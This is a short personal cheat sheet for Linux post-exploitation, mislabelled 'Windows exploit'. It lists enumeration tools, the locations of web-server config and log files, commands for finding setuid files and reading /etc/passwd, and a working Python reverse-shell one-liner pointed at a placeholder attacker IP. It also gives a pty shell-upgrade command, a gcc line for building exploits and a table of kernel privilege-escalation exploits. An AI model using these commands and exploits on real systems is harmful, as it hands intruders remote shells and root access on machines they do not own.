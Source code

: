 # Windows exploit

## useful tools

* linux-priv-checker
    http://www.securitysift.com/download/linuxprivchecker.py

* ?? LinEnum
    http://www.rebootuser.com/?p=1758

## application and log directory

### Apache
* wwwroot:
    * /var/www/html
* conf:
    * /etc/apache2/httpd.conf
    * /etc/apache2/apache2.conf
    * /etc/httpd/httpd.conf
    * /etc/httpd/conf/httpd.conf
* log: 
    * /var/log/apache/access.log
    * /var/log/apache2/access.log
    * /var/log/httpd/access.log

### MySQL
* log:
* conf:
* Usally the password can be got from wwwroot/Configuration.php or something like that.

## Simple probing command

* uname -a / rpm -qa kernel / dpkg -l | grep kernel
    * uname give kernel info, but I need distro info sometimes.
    * rpm and dpkg can also give you package info for privilege escalation.

* Search for global writable sticky bit files

    find / -type f \(-perm -4000 -o -perm -2000 \) -print

    -print can be replace with -ls

* Search for password in log files ad conf files

* cat /etc/passwd / ls -al /etc/password

## mail

mail are store at /var/spool/mail

## Reverse shell

* Python
```python
-c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("<YOURIP>",<YOURLISTENINGPORT>));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'
```

* nc

* using /dev/tcp


## TTY shell

* tty shell can run sudo / su, while other cannot
* command python -c 'import pty; pty.spawn("/bin/sh")'

## Exploit compilation

If there is no tool for compile, compile at local
for 64bit window compilation

gcc -m32 -Wl,--hash-style=both -o 9545 9545.c


## Privilege escalation

## Exploit

| Exploit  | Type  | Target  | Note  |
|---|---|---|---|---|
| 'ip_append_data()' Ring0 Privilege Escalation  | PE  | Linux Kernel 2.6 < 2.6.19 (White Box 4 / <b>CentOS 4.4/4.5</b> / Fedora Core 4/5/6 x86)  | n/a |
|  Linux Kernel 2.2.x/2.4.x (RedHat) - 'ptrace/kmod' Local Privilege Escalation | PE  | Redhat | n/a  | 
| Linux Kernel 2.6 (Debian 4.0 / Ubuntu / Gentoo) UDEV < 1.4.1 – Local Privilege Escalation (1) |  PE | CentOS 5 | 2 variants  |
| Apache SpamAssassin Milter Plugin 0.3.1 |  PE | Apache SpamAssassin |  |
| pkexec Race condition |  PE | /usr/lib/policykit/... |  |